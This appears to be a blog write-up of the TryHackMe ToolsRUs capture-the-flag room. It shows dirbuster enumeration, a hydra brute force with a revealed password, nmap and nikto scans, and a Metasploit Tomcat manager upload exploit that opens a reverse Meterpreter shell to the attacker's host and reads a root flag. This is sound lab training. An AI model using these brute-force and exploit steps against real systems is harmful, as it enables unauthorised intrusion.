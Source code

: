 ```yaml
---
layout: post
title: TryHackMe - ToolsRUs
---
```


This is a writeup to the [ToolsRus Room](https://tryhackme.com/room/toolsrus) on TryHackMe.com. The goal is to practice using dirbuster, hydra, nmap, nikto and metasploit. The challenge is to use the tools to enumerate a server, gathering information along the way that will eventually lead to you taking over the machine.

* What directory can you find, that begins with a "g"?
  * Use dirbuster with the directory-list-lowercase-2.3-medium.txt wordlist and find the guidelines directory.
* Whose name can you find from this directory?
  * Inside that directory is a message: "Hey bob, did you update that TomCat server?"
* What directory has basic authentication?
  * Eventually the "protected" directory shows up in dirbuster.
* What is bob's password to the protected part of the website?

	```
	kali@kali:~$ hydra -l bob -P rockyou.txt 10.10.70.1 http-get /protected
	Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

	Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-16 00:54:40
	[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
	[DATA] attacking http-get://10.10.70.1:80/protected
	[80][http-get] host: 10.10.70.1   login: bob   password: <censored>
	1 of 1 target successfully completed, 1 valid password found
	Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-16 00:54:44
	```

* What other port that serves a web service is open on the machine? Going to the service running on that port, what is the name and version of the software? What version of Apache-Coyote is this service using? What version of Apache-Coyote is this service using?
	```
	kali@kali:~$ nmap 10.10.70.1 -A
	PORT     STATE SERVICE VERSION
	22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey: 
	|   2048 a1:d2:2d:75:f2:94:5d:c2:51:b4:21:4f:8a:6a:b3:f2 (RSA)
	|   256 7e:c6:52:14:6f:b1:3c:eb:42:21:4c:b1:6e:79:32:f3 (ECDSA)
	|_  256 2e:95:75:35:15:2e:67:82:2c:98:4a:c3:9d:e3:ec:55 (ED25519)
	80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
	|_http-server-header: Apache/2.4.18 (Ubuntu)
	|_http-title: Site doesn't have a title (text/html).
	1234/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
	|_http-favicon: Apache Tomcat
	|_http-server-header: Apache-Coyote/1.1
	|_http-title: Apache Tomcat/7.0.88
	8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
	|_ajp-methods: Failed to get a valid response for the OPTION request
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
	```
* Use Nikto with the credentials you have found and scan the /manager/html directory on the port found above.

	```
	kali@kali:~$ nikto -host http://10.10.70.1:1234/manager/html -id bob:bubbles
	- Nikto v2.1.6
	---------------------------------------------------------------------------
	+ Target IP:          10.10.70.1
	+ Target Hostname:    10.10.70.1
	+ Target Port:        1234
	+ Start Time:         2020-11-16 01:08:20 (GMT-5)
	---------------------------------------------------------------------------
	+ Server: Apache-Coyote/1.1
	...
	```
* How many documentation files did Nikto identify?
  * Nikto took a very long time, but eventually discovered 5 files.
* Use Metasploit to exploit the service and get a shell on the system. What user did you get a shell as, and what text is in the file /root/flag.txt?
	```
	$ msfconsole -q
	msf5 > search name:tomcat type:exploit
	... # tried out multiple exploits, eventually found one that worked
	... # set options based on previously found username:password and RPORT
	msf5 exploit(multi/http/tomcat_mgr_upload) > run

	[*] Started reverse TCP handler on 10.14.4.59:4444 
	[*] Retrieving session ID and CSRF token...
	[*] Uploading and deploying ycK4cqc...
	[*] Executing ycK4cqc...
	[*] Sending stage (53944 bytes) to 10.10.70.1
	[*] Undeploying ycK4cqc ...
	[*] Meterpreter session 1 opened (10.14.4.59:4444 -> 10.10.70.1:44042) at 2020-11-16 01:24:34 -0500
	meterpreter > shell
	Process 1 created.
	Channel 1 created.
	whoami
	root
	cat /root/flag.txt
	<censored>
	```
